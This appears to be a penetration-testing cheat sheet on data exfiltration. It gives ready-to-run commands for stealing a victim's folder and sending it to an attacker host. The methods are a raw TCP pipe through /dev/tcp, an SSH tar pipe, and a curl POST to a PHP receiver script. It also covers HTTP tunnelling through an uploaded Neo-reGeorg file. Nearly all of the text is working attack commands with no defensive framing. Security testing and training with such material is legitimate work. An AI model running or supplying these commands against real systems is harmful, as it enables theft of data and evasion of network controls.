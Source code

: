 # Exfiltration

## Using TCP Socket
Attacker listener:
```bash
nc -lvp 8080 > /tmp/exfil.data
```

From victim:
```bash
tar zcf - folder/ | base64 | dd conv=ebcdic > /dev/tcp/1.2.3.4/8080
```

Decrypt data:
```bash
dd conv=ascii if=exfil.data | base64 -d > exfil.tar
tar xvf exfil.tar
```

## Using SSH
```bash
tar cf - folder/ | ssh kali@1.2.3.4 "cd /tmp/; tar xpf -"
```

## Using HTTP(S)
From victim:
```bash
curl --data "file=$(tar zcf - folder | base64)" http://<attacker_ip>/contact.php
```

contact.php:
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Decode file:
```bash
sudo sed -i 's/ /+/g' /tmp/http.bs64
cat /tmp/http.bs64 | base64 -d | tar xvfz -
```

### HTTP Tunneling
When you can upload file to the web server, using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg).

1. Generate encrypted Tunneling clients with `key` key in the `neoreg_servers/` directory.

```bash
python3 neoreg.py generate -k key
```

2. Upload file
3. Create tunnel

```bash
python3 neoreg.py -k key -u <URL to uploaded file>
```

4. Access